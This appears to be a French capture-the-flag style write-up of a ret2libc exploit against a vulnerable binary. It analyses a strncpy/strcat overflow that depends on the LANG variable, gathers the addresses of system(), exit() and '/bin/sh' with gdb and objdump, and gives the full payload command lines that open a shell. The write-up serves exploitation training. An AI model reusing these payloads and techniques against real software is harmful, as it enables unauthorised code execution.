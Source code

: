 # Ret2Libc

## Analyse

- `strncpy()` de 40 caracteres de argv[1]: 0xbffff5e0
- `strncpy()` de 32 caracteres de argv[2]: 0xbffff608
- Ecart de 40 caracteres entre les deux adresses
- Recuperation de la variable d'ENV "LANG", changement du comportement de `greetuser()` en consequence
 ```
    +-> Si "LANG" == "fi"
    |     +-> Concatenation de "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20" et du 1er `strncpy()`
    |
    +-> Si "LANG" == "nl"
    |     +-> Concatenation de "Goedemiddag! " et du 1er `strncpy()`
    |
    +-> Sinon
          +-> Concatenation de "Hello " et du 1er `strncpy()`
```
- `puts()` de la concatenation

Il y a un ecart de **40 octets entre les deux adresses**, donc **si argv[1] compte 40 caracteres le "\0" sera ecrase**
**-->** le `strcat()` continuera sa route et prendra alors le second `strncpy()` jusqu'a rencontrer un '\0'

**-->** Modification du **saved-eip** du `main()` possible lorsque le retour d'`strcat()` est de +65 caracteres (si "LANG"=nothing)

`$(python -c 'print "A"*40') $(python -c 'print "B"*25 + NOTRE_INJECTION')`

**Adresse de la libc:**
```
(gdb) info proc mappings
0xb7fcf000 0xb7fd1000     0x2000        0x1a3000    /lib/i386-linux-gnu/libc-2.15.so
     |         |             |              |                   |
   debut      fin         taille      taille totale        chemin absolu
de la region            de la region    du fichier
  memoire                 memoire

```

**Adresse de `system()`:**
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

**Adresse d'`exit()`:**
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

**Adresse de la string "/bin/sh":**
```
objdump -s -j .rodata /lib/i386-linux-gnu/libc-2.15.so | grep /bin/sh
160c50      726e616c    002d6300    2f62696e    2f736800  rnal.-c./bin/sh.
   |
 offset
```

(adresse_libc + 160c50 + len("rnal.-c.")) = 0xb7f8cc58

-> 0xb7fcf000 + 0x160c50 + 0x8 = 0xb7f8cc58

**Resultat:**
`$(python -c 'print "A"*40') $(python -c 'print "B"*25 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`

##### Mais non ! Notre injection ne sera pas copiee en entier.
**->** ``"B"*25 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7" == 37 octets alors que le `strcpy()` n'en copie que 32``

- Notre injection ce fait suite a au `strcat()` qui concatene une chaine suivant la valeur de "LANG" a nos arguments.

- Ces chaines ont des longueurs differentes, par defaut, on aura "Hello ", soit **7 caracteres**.

- On peut donc utiliser cela pour nous rapprocher d'$ebp+4.

Si **"LANG"="fi"**, on a "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4" soit **18 caracteres** !

Grace a cela, on refait le calcul pour connaitre la distance d'$ebp+4 et **l'offset diminue de 7 octets ce qui est suffisant**.

`$(python -c 'print "A"*40') $(python -c 'print "B"*18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`


